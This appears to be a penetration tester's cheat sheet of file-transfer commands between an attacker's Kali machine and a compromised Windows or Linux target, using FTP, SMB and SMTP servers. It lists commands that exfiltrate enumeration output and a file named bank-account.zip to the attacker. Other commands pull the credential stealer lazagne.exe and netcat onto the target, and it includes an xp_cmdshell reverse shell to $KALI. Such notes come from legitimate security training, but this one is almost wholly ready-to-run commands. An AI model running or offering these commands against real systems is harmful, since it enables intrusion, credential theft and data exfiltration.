 
#### Mail Server
```python
sudo python -m smtpd -n -c DebuggingServer $KALI:25
```
#### FTP Server
```bash - kali
python3 -m pyftpdlib -p 21 --write
```
```batch - windows
ftp $KALI
```
```batch - windows
anonymous
```
```batch - windows
anonymous
```
```batch - windows
binary
```
```batch - windows
put FILE.7z
```
```batch - windows
mput jaws-results.txt PowerUp.txt Seatbelt.txt Sherlock.txt winpeas.txt
```
#### SMB File Transfer
[[Impacket#Python venv quick launch]]

```
smbserver.py share . -smb2support -user Gonk -password Ware
```

```
net use \\$KALI\share /user:Gonk Ware
```

WINDOWS:
---
USE RCP TO COPY **TO** SMBSERVER:
```
rcp -b bank-account.zip \\$KALI\share
```
USE RCP TO COPY **FROM** SMBSERVER:
```
rcp \\$KALI\share\lazagne.exe .
```
OR
CONNECT TO SHARE WITH NO AUTH:
```batch - windows
net use \\$KALI\share
```
COPY FROM WINDOWS TO KALI:
```batch - windows
copy winpeas.txt \\$KALI\share\
```
COPY FROM KALI TO WINDOWS:
```
copy \\$KALI\share\nc.exe %TEMP%\nc.exe
```
REVERSE SHELL:
```
xp_cmdshell %TEMP%\nc.exe -e cmd.exe $KALI 80
```
---
LINUX:
```bash - target
smbclient \\\\$KALI\\share -U "df" -p df
```
```bash - target
```